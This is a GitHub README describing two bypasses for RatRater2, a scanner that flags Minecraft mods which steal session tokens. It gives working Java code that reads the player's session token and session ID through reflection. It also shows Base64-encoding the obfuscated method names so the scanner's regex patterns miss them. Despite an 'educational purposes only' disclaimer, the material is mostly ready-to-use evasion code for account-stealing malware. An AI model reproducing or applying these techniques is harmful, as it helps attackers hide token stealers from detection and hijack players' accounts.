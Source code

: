 # RatRater 2 Bypass

This Repository contains 2 bypasses for [RatRater2].

## ⚠️ Disclaimer

**This program is for educational purposes only, and I am not responsible for any of your actions!** \
**If you use this to create a rat then you're a discussing human being!**

## Explanation

Short explanation of booth bypasses.

### 1st bypass (Fixed)

Extracting the token from `private final String token;` (`field_148258_c`) inside `net.minecraft.util.Session`.
(The methode was found by [@Commandcracker])

#### Example of bypass 1

```java
private static String getTokenFromField() {
    try {
        Field token_field = Session.class.getDeclaredField("field_148258_c");
        token_field.setAccessible(true);
        return (String) token_field.get(Minecraft.getMinecraft().getSession());
    } catch (NoSuchFieldException | IllegalAccessException ignore) {
        return "";
    }
}
```

### 2nd bypass

Hiding the Function/Field Name from the regex filter by for example
Encoding/Encrypting and Decoding/Decrypting or
by combining two variables to the name of one of:

```
func_111286_b (getSessionID)
func_148254_d (getToken)
field_148258_c (token)
```

and then using reflection to access it.

#### Encoding Example of bypass 2 with func_111286_b (getSessionID)

```java
private static String getSessionIDFromGetSessionID() {
    try {
        byte[] decodedBytes = Base64.getDecoder().decode("ZnVuY18xMTEyODZfYg==");
        String decodedString = new String(decodedBytes);
        Method getSessionID = Session.class.getMethod(decodedString);
        return (String) getSessionID.invoke(Minecraft.getMinecraft().getSession());
    } catch (NoSuchMethodException | InvocationTargetException | IllegalAccessException ignore) {
        return "";
    }
}
```

#### Encoding Example of bypass 2 with func_148254_d (getToken)

```java
private static String getTokenFromGetToken() {
    try {
        byte[] decodedBytes = Base64.getDecoder().decode("ZnVuY18xNDgyNTRfZA==");
        String decodedString = new String(decodedBytes);
        Method getSessionID = Session.class.getMethod(decodedString);
        return (String) getSessionID.invoke(Minecraft.getMinecraft().getSession());
    } catch (NoSuchMethodException | InvocationTargetException | IllegalAccessException ignore) {
        return "";
    }
}
```

[RatRater2]: https://github.com/KTibow/RatRater2
[@Commandcracker]: https://github.com/Commandcracker
